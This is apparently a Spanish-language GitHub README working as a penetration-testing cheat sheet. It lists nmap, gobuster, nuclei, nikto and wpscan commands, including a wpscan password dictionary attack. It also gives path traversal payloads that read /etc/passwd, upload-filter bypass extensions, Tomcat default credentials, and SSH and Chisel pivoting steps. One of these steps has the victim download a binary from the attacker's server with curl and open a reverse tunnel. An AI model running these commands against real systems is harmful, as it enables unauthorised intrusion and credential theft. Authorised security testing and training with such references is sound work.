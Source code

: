 
# Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades. 

# Herramientas de escaneo 
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
## Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
## Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
# Pivoting
### Local 
```shell
- ssh -L <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Remoto
```shell
- ssh -R <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Dinámico 
```shell
- ssh -D <puerto local que actuará como proxy> <usuario>@<ip> 
```
### Uso e instalación Chisel
#### Lado atacante
```shell
- python3 -m http.server 80 <--- para descargar chisel de lado de la victima.
- chmod +x chisel_linux_amd64
- ./chisel_linux_amd64 --reverse -p <puerto> 
```
#### Lado víctima
```shell
- curl http://<ip>/chisel_linux_amd64 -o chisel <--- para descargar chisel en la victima con el servidor del atacante.
- chmod +x chisel
- ./chisel client <ip>:<ip> R:socks 
```
<div align="left">
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/linux/linux-original.svg" height="39" alt="linux logo"  />
</div>
